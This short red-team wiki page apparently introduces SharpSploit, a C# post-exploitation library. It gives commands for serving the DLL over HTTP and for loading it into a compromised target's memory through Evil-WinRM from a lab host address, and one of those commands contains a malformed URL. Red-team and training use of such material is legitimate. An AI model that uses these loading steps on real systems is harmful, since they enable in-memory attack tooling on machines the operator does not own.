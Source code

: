 # SharpSploit

SharpSploit is a .NET post-exploitation library written in C# that aims to highlight the attack surface of .NET and make the use of offensive .NET easier for red teamers.

{% embed url="https://github.com/cobbr/SharpSploit" %}

{% hint style="info" %}
SharpSploit DLL can be loaded in target system memory with Evil-WinRM or custom dll injectors/loaders.
{% endhint %}

#### <mark style="color:green;">setup a server:</mark>

```
python3 -m http.server
```

load in memory using Evil-WinRM:

```
> Dll-Loader -http -path http://192.168.56.1/:8000/SharpSploit.dll  
```

#### <mark style="color:green;">invoke:</mark>

type in `[SharpSploit.` and press tab a few times to get a full list of available modules.
